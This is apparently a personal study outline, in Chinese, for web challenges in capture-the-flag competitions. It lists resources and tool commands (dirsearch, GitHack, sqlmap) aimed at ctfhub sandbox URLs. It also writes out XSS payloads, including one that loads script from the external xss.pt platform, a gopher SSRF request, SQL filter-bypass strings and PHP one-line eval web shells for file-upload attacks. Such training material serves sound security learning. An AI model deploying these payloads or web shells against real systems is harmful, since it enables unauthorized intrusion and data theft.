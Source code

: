- Web
	- 信息泄露
		- 文件泄露
			- 目录遍历
				- 使用 [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
			- 解析对应泄露的文件常见的有Git，SVN，VIM缓存，.DS_Store 文件，可以用 读取工具
		- 各类编程语言框架info
			- [PHPINFO](https://blog.csdn.net/qq_37450949/article/details/119535420)
			- [1000php](https://github.com/Xyntax/1000php)
				- 1000个PHP代码审计案例 (2016.7以前乌云公开漏洞)
			- [SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)
	- 密码口令
		- 弱口令
			- 使用 [[Burpsuite Pro 2022.2.2]]进行爆破
			- 可参考CTFHUB [弱口令](https://writeup.ctfhub.com/Skill/Web/%E5%AF%86%E7%A0%81%E5%8F%A3%E4%BB%A4/f6QQk4oixo5X2ZdsUgC7Wo.html)writeup
		- 默认口令
			- [[常见web系统默认口令总结]]
		-
	- SQL注入
		- 使用 [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
	- XSS
	  collapsed:: true
		- 反射
			- 测试
				- ``` js
				  				  <script>alert(1)</script>
				  ```
			- Xss 平台 [xss.pt](https://xss.pt/xss.php)
				- 获得Xss代码
				- ``` js
				  				  <sCRiPt sRC=//xss.pt/kwX9></sCrIpT>
				  ```
	- SSRF
		- URL伪协议有如下这些：
			- file:///
			- dict://
			- sftp://
			- ldap://
			- tftp://
			- gopher://
				- ```post
				  POST /flag.php HTTP/1.1
				  Host: 127.0.0.1:80
				  Content-Length: 36
				  Content-Type: application/x-www-form-urlencoded
				  
				  key=ba1ece4536809bb43a56d286d059bd18
				  
				  
				  ```
- ---
- 网络安全整体的文章
	- [信息安全、CTF 入门与学习方法笔记（持续更新）](https://marlous.github.io/2018/12/09/%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E3%80%81CTF%20%E5%85%A5%E9%97%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0%E6%96%B9%E6%B3%95%E7%AC%94%E8%AE%B0%EF%BC%88%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%EF%BC%89/#5-CTF-%E5%86%85%E5%AE%B9%E3%80%81%E8%B5%84%E6%96%99%E3%80%81%E5%B7%A5%E5%85%B7%E3%80%81%E6%BC%94%E7%BB%83%E5%B9%B3%E5%8F%B0)
	- [CTF入门资料](https://blog.csdn.net/weixin_39664643/article/details/108315722)
	- [一个WIKI](https://hackmd.io/@Ov16q5H6T3CZG6TE4dlqrA/BJJk2x3N7#XXE)
	- [俺自己的 CTF 常用工具使用 & 初学经验整理](https://zhangmaimai.com/2021/10/30/max-ctf-tools-and-exp/)
	- [2020年收集的渗透测试进阶学习资料](https://www.cnhackteam.org/topic/1001/?btwaf=43553764)
	- [又一个wiki](https://ctf-wiki.org/)
	- [Security-Data-Analysis-and-Visualization](https://github.com/404notf0und/Security-Data-Analysis-and-Visualization#Web%E5%AE%89%E5%85%A8%E7%9F%A5%E8%AF%86%E5%A4%A7%E7%BB%BC%E5%90%88)
- 工具类型的网站
	- [CTFTools](https://ctftools.com/down/)
	- [CTF编码](http://www.hiencode.com/)
	- [Personal CTF Toolkit](https://github.com/Harmoc/CTFTools)
	- [渗透师导航](https://www.shentoushi.top/knowledge)
	- [[常见web系统默认口令总结]]
- Writeups
	- [Writeups](https://github.com/susers/Writeups)
	- [全国大学生信息安全竞赛真题（CTF）](https://blog.csdn.net/Toufahaizai/article/details/89002051)
	- [Hacker Game 2021 Writeups](https://github.com/USTC-Hackergame/hackergame2021-writeups)
	  collapsed:: true
		- 中科大信息安全大赛团队在 GitHub 上开源的赛事题解：Hacker Game 2021 Writeups
		- 主要包含官方与选手们的题目描述、文件、源代码、技术解析文章等内容。包含多种解题思路与实现技巧，颇有参考价值。
	- [CTF-Site](https://github.com/myndtt/CTF-Site)
	- [合天网安实验室](https://www.hetianlab.com/pages/CTFLaboratory.jsp)
- 博客
  collapsed:: true
	- [BACKUP](https://4hou.win/wordpress/?cat=3388)
- 工具
	- 虚拟机
	  collapsed:: true
		- [[VMWare]]
	- Web
	  collapsed:: true
		- 扫描工具
			- [wappalyzer](https://www.wappalyzer.com/installed?utm_source=installed&utm_medium=extension&utm_campaign=wappalyzer) 网站信息扫描
			  id:: 62aae34b-60dd-4818-90e4-ae6b89c93527
			- [cansina](https://github.com/deibit/cansina) 目录扫描
				- ```shell
				  安装依赖
				  pip install -r requirements.txt
				  扫描
				  python3 cansina.py -u <site_url> -p <payload_file>
				  ```
			- [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
			  id:: 62ab25ff-5e43-43d0-a5eb-355de89ccdad
				- ```shell
				  py dirsearch.py -u http://challenge-f0c5939453483692.sandbox.ctfhub.com:10800/
				  ```
		- 读取工具
		  id:: 62ab25ff-2e32-4c2a-912f-a5d72c3149fe
			- [GitHack](https://github.com/lijiejie/GitHack) git泄露读取文件
			  collapsed:: true
				- ```shell
				  python GitHack.py http://www.openssl.org/.git/
				  ```
				- git常用语句
					- 查看日志
					  collapsed:: true
						- ```shell
						  git log
						  ```
					- 查看commit 内容
						- ```xshell
						  git diff commitID
						  ```
					- 查看stash
					  collapsed:: true
						- ```shell
						  git stash list
						  ```
					- 出stash
					  collapsed:: true
						- ```shell
						  git stash pop
						  ```
					- 查看stash的hash文件
					  collapsed:: true
						- ```shell
						  cat .git/refs/stash
						  ```
			- [dvcs-ripper](https://github.com/kost/dvcs-ripper)
			  collapsed:: true
				- docker docker环境会报错
				  collapsed:: true
					- ```shell
					  docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-svn.pl -v    -u  http://challenge-b462cb7bd1c09880.sandbox.ctfhub.com:10800
					  ```
				-
			- [dsstore](https://github.com/gehaxelt/Python-dsstore.git) 解析Dstore文件
		- SQL注入
			- [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
			  id:: 62ab25ff-9202-4bcf-b592-72c63bc1624b
				- ~~需要安装 [visual-cpp-build-tools](https://visualstudio.microsoft.com/zh-hans/visual-cpp-build-tools/)~~
				  collapsed:: true
					- ![image.png](../assets/image_1655354940503_0.png)
				- id:: 62ab25ff-4d7f-45ea-823b-3d3e9be200af
				  ```shell
				  git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
				  ```
				- [简易教程](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)
				- [用户手册](http://drops.xmd5.com/static/drops/tips-143.html)
				- 列出表名
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1"  --tables --tamper "space2comment.py"
					  ```
				- 列出列名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
					  ```
				- 查数据
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
					  ```
				- 过滤空格
					- ` /**/、()、%0a`
					- ```sh
					  -1/**/union/**/select/**/database(),2 
					  ```
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1" --dbs --tamper "space2comment.py"
					  ```
		- 文件上传
			- 1.确定环境
			  collapsed:: true
				- ((62aae34b-60dd-4818-90e4-ae6b89c93527))
			- 2.上传对应木马
				- PHP
					- ```PHP
					  <?php eval(@$_POST['a']); ?>
					  ```
					- ```PHP
					  <?php eval(@$_GET['a']); ?>
					  ```
			- 3.访问接口
				- ```curl
				  http://challenge-15ae0dbdc51ad51b.sandbox.ctfhub.com:10800/upload/sad.php?a=phpinfo();
				  ```
		- 抓包工具
			- [[Burpsuite Pro 2022.2.2]]
			  collapsed:: true
				- [Burp Suite 使用介绍](http://drops.xmd5.com/static/drops/tools-1548.html)
		- 网站管理工具
			- [AntSword](https://github.com/AntSwordProject/AntSword-Loader)
			-
		-
	- Wisc
		- 图片隐写
		  collapsed:: true
			- [BlindWaterMark](https://github.com/chishaxie/BlindWaterMark)
			  collapsed:: true
				- 盲水印 by python
		- 流量分析
			- [wireshark](https://www.wireshark.org/download.html)
	- 字典
		- [fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)